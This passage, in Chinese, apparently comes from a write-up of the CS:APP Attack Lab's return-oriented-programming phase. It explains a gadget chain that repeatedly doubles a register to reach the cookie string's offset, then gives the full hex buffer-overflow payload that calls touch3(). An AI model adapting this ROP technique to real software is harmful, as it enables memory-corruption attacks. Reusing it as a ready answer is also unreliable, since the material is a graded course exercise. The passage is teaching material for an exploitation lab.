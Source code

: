 在这里，偏移量显然是`mov %rsp, %rax`和`<cookie string>`的距离，但是中间其实还可以填充一些相当于`nop`的东西。我们还发现，`getbuf()`的返回值是 1，这表明`%rax`在攻击开始时一定是 1。

我的做法还是比较逆天：不断倍增这个 1。结果相当长。

倍增是这样的(`%rax -> %rdx -> %rcx -> %rsi, %rax -> %rdi, add_xy()`)：

```asm
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %esi
mov %rax, %rdi
add_xy()
```

如果是倍增，最后的偏移量需要是 $2^n$ ，可能需要填充一些相当于`nop`的指令。不过这里不需要。

最终结果：

```
# useless bytes (40 bytes)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
64 64 64 64 64 64 64 64
65 65 65 65 65 65 65 65

# double(x5)
42 1a 40 00 00 00 00 00  # mov %eax, %edx
34 1a 40 00 00 00 00 00  # mov %edx, %ecx
27 1a 40 00 00 00 00 00  # mov %ecx, %esi
c5 19 40 00 00 00 00 00  # mov %rax, %rdi
d6 19 40 00 00 00 00 00  # add_xy()

42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00

42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00

42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00

42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00

# main
42 1a 40 00 00 00 00 00  # mov %eax, %edx
34 1a 40 00 00 00 00 00  # mov %edx, %ecx
27 1a 40 00 00 00 00 00  # mov %ecx, %esi
ad 1a 40 00 00 00 00 00  # mov %rsp, %rax
c5 19 40 00 00 00 00 00  # mov %rax, %rdi
d6 19 40 00 00 00 00 00  # add_xy()
c5 19 40 00 00 00 00 00  # mov %rax, %rdi
fa 18 40 00 00 00 00 00  # call touch3()
```